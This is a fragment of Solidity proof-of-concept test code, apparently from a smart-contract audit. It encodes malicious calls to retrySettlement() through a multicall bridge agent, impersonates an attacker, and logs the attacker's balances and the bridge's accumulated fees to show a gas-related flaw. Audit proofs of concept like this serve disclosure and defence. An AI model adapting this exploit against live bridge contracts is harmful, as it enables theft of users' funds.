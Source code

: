 ```solidity
        // Encode 2 calls to retrySettlement(), we can use 0 remoteGas arg since 
        // initialGas > 0 because we execute the calls as a part of an anyExecute()
        Multicall2.Call[] memory malicious_calls = new Multicall2.Call[](2);

        bytes4 selector = bytes4(keccak256("retrySettlement(uint32,uint128)"));

        malicious_calls[0] = Multicall2.Call({target: address(multicallBridgeAgent), callData:abi.encodeWithSelector(selector,1,0)});
        malicious_calls[1] = Multicall2.Call({target: address(multicallBridgeAgent), callData:abi.encodeWithSelector(selector,2,0)});
        // malicious_calls[2] = Multicall2.Call({target: address(multicallBridgeAgent), callData:abi.encodeWithSelector(selector,3,0)});
        
        outputParams = OutputParams(attacker, globalAddress, 500, 500);
        
        params = abi.encodePacked(bytes1(0x02),abi.encode(malicious_calls, outputParams, avaxChainId));

        // At this point root now has ~1.1 
        hevm.prank(attacker);
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 0.1 ether}(params, deposit, 0.09 ether);
        
        // get attacker's virtual account address
        address vaccount = address(rootPort.getUserAccount(attacker));

        console2.log("ATTACKER underlying balance avax", avaxMockAssetToken.balanceOf(attacker));
        console2.log("ATTACKER global avax h token balance root", ERC20hTokenRoot(globalAddress).balanceOf(vaccount));

        console2.log("ATTACKER ETHER BALANCE END", attacker.balance);
        console2.log("RootBridge WrappedNative END",WETH9(arbitrumWrappedNativeToken).balanceOf(address(multicallBridgeAgent)));
        console2.log("RootBridge ACCUMULATED FEES END", multicallBridgeAgent.accumulatedFees());
        console2.log("---------------------------------------------------------");
        console2.log("-------------------- GAS ISSUE END ----------------------");
        console2.log("---------------------------------------------------------");

    }

    function _prepareDeposit() internal returns(DepositInput memory) {
        // hToken address
        address addr1 = avaxMockAssethToken;

        // underlying address
        address addr2 = address(avaxMockAssetToken);

        uint256 amount1 = 500;
        uint256 amount2 = 500;

        uint24 toChain = rootChainId;

        return DepositInput({
            hToken:addr1,
            token:addr2,
            amount:amount1,
            deposit:amount2,
            toChain:toChain
        });

    }
```
